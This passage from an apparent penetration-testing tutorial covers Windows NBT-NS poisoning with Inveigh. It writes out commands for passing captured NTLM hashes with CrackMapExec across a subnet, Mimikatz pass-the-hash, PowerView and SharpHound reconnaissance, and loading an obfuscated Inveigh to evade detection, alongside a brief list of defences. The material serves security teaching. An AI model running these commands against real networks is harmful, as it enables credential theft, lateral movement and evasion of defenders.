 2. Extract the NTLMv2 hash from the output
3. Use the hash with CrackMapExec from another system

```bash
crackmapexec smb 192.168.1.0/24 -u username -H HASH_FROM_INVEIGH
```

### Defending Against Windows-Based Poisoning

Windows-based NBT-NS poisoning may be more difficult to detect than Linux-based attacks. Consider these defense techniques:

1. **Network segmentation**: Limit broadcast traffic between network segments
2. **Windows Defender Advanced Threat Protection**: Can detect Inveigh and similar tools
3. **PowerShell Script Block Logging**: Detects PowerShell-based poisoning tools
4. **AppLocker/WDAC policies**: Prevent unauthorized PowerShell scripts from running
5. **Network monitoring**: Look for unusual NBT-NS response patterns

### Combining with Other Windows Attack Techniques

NBT-NS poisoning pairs well with other Windows attack techniques:

#### With Mimikatz

```powershell
# After capturing hashes with Inveigh, use Mimikatz to perform pass-the-hash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.local /ntlm:hash /run:powershell.exe"'
```

#### With PowerView

```powershell
# Use PowerView to find additional targets after initial compromise
Import-Module .\PowerView.ps1
Find-LocalAdminAccess
```

#### With BloodHound

```powershell
# Collect data for BloodHound to identify attack paths using the captured credentials
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

### Evading Detection on Windows

When performing NBT-NS poisoning from Windows, consider these evasion techniques:

#### PowerShell Script Obfuscation

```powershell
# Use obfuscated versions of Inveigh
Import-Module .\Inveigh-Obfuscated.ps1
```
